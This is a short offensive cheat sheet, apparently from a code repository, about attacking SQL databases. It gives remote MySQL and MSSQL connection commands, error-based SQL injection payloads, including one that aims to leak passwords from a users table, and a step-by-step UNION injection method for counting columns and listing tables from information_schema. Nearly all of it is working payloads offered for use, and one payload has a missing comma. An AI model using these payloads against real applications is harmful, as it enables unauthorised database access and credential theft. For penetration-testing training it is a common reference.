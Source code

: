 
##### Note: make sure to check for error messages.
#### Connecting to MySQL
```
mysql -h TARGET_IP -u USERNAME -p   // Remote authentication with username and password
```

```
SELECT @@VERSION;               // Print the SQL version
SELECT system_user();           // Print the current user. Note: this is the database-specific user, it may not be the user of the same name in the system.

SHOW databases;
USE DATABASE_NAME;
SHOW tables;
```


#### MSSQL basics
```
impacket-mssqlclient USER:PASSWORD@IP_ADDRESS -windows-auth
SELECT @@VERSION;

SELECT name FROM master.dbo.sysdatabases               // Show databases
SELECT * FROM TARGET_DB.information_schema.tables;     // Show tables


```


#### Enabled error messages
```
' or 1=1 in (select @@version) -- -                 
' or 1=1 in (SELECT password FROM users) -- -         // might show the passwords in the error message.
```


#### MySQL UNION injection
First, use these payloads ascending until an error occurs:
```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
The last number before the error is the amount of columns in the request. Then, use this payload with the appropriate amount of columns:
```
' UNION SELECT @@version -- -
' UNION SELECT null, @@version -- -
...
' UNION SELECT null, null, database(), user(), @@version  -- -
```
If the payload works, it's time to read the database tables:
```

' union select null, null, null, null null, table_name from information_schema.columns where table_schema=database() -- //

```